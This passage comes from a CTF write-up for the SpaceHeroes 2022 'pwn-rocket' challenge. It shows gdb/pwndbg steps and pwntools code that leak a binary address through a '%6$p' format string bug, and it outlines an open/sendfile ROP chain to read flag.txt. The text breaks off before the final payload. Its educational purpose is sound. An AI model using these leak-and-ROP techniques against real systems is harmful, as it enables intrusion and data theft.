 And reconstructed steps mentioned below inside of the container. This resulted in different value for n, equal to 6. Off by one error!

Im putting this disclaimer here to put emphasis on meticulous reconstruction of environment and how these little things matter. While i performed all the further steps locally first, i will from now on describe them the way they were done inside of the container as this is the version that gave me the flag.

#### End of disclaimer :)
---

After finding a promising n for the format string vuln, i used gdb to find the offset. I ran `gdb ./pwn-rocket` and enabled ASLR using `aslr on`. Afterwards i set breakpoint at the beginning of `vuln()` using `break vuln` and ran the program using `r`. I then stepped over instructions using `so` (which i believe is not part of standard gdb and comes from the pwndbg extension instead) until the vulnerable `gets()` function, and typed in "%6$p" at input. Again, i skipped over instructions until the binary gave output back to me:

```
pwndbg> 
Temporary breakpoint 17 at 0x55fcc7efb57e
0x558299cca0e0
...
```
I then used `vmmap` (also from pwndbg, but `info proc mappings` from vanilla gdb may also be used for this purpose) to look at the base address of the binary
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x558299cc9000     0x558299cca000 r--p     1000 0      /SpaceHeroes2022/pwn/rocket/pwn-rocket
    ...
```
After finding both of these values, i calcualted the offset in python as:
```python
BINARY_OFFSET = 0x558299cca0e0 - 0x558299cc9000
```
All that was necessary now was to build the payload and send it to the remote using pwntools. I decided on two separate payloads for no particular reason:
1. First payload would call `open("flag.txt", O_RDONLY)` and i would assume the returned fd to be 3 (based on the fact that 0 1 and 2 are taken by standard IO, but i don't think it is guaranteed to be 3)
2. Afterwards `vuln()` would be called second time, to input another payload
3. Second payload would call `sendfile(1, 3, 0, 100)` which writes 100 bytes from fd 3 to fd 1 (stdout) at offset 0. The number of bytes was chosen as arbitrarily big, as `sendfile()` reads until there is data avilable - 100 is just the upper limit.
4. I would filter the output in search of anything that looks like a flag :)

The exploit starts by initializing pwntools:
```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['konsole', '-e']
```
followed by the addresses mentioned earlier, followed by remote connection and address leak using the format string vuln:
```python
s = remote('0.cloud.chals.io', 13163)

print('PROG OUT:', s.readline())
FMT_STR = b'%6$p'
s.writeline(FMT_STR) # <- This inputs the format string>

print('PROG OUT:', s.readuntil(b':')) # <- This reads until "Welcome:"
addr_leak = s.readline().decode() # <- The rest of the line contains leaked addr
print('ADDR LEAK:', addr_leak)

```